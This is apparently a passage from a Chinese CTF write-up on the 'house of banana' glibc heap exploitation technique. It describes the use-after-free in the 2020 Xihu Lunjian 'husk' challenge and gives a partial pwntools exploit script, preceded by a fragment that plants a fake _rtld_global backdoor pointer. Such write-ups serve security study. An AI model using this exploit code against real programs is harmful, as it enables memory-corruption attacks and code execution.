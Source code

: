 ```

   //funcs
   fake_rtld_global[0x32] = backdoor;


   fake_rtld_global[0x61] = 0x800000000;
`}`
```



## 0x05 实例应用

### <a class="reference-link" name="%E8%A5%BF%E6%B9%96%E8%AE%BA%E5%89%912020%E5%86%B3%E8%B5%9B%20husk"></a>西湖论剑2020决赛 husk

add函数中的size的范围为large bin范围

[![](https://p1.ssl.qhimg.com/t01ca6662bef51ba8ce.png)](https://p1.ssl.qhimg.com/t01ca6662bef51ba8ce.png)

delete功能里未清空指针，存在UAF

[![](https://p3.ssl.qhimg.com/t0148e4689737e19c67.png)](https://p3.ssl.qhimg.com/t0148e4689737e19c67.png)

程序有edit和show功能，glibc版本为2.30，由于程序基址无法知道，不能用unlink的方法，因此，可以使用house of banana

#### <a class="reference-link" name="exp"></a>exp

```
#coding:utf8
from pwn import *

sh = process('./husk',env = `{`'LD_PRELOAD':'./libc.so.6'`}`)
libc = ELF('./libc.so.6')
#sh = remote('100.1.0.111',9999)

def add(size,content = ''):
   sh.sendlineafter('&gt;&gt;','1')
   sh.sendlineafter('Size:',str(size))
   if content != '':
      sh.sendafter('Content:',content)

def delete(index):
   sh.sendlineafter('&gt;&gt;','2')
   sh.sendlineafter('Index:',str(index))

def show(index):
   sh.sendlineafter('&gt;&gt;','3')
   sh.sendlineafter('Index:',str(index))

def edit(index,content):
   sh.sendlineafter('&gt;&gt;','4')
   sh.sendlineafter('Index:',str(index))
   sh.sendafter('Content:',content)

add(0x520,'a'*0x520) #0
add(0x428,'b'*0x428) #1
add(0x500,'c'*0x500) #2
add(0x420,'d'*0x420) #3

delete(0)
add(0x600,'c'*0x600) #4
add(0x600,'c'*0x600) #5
```
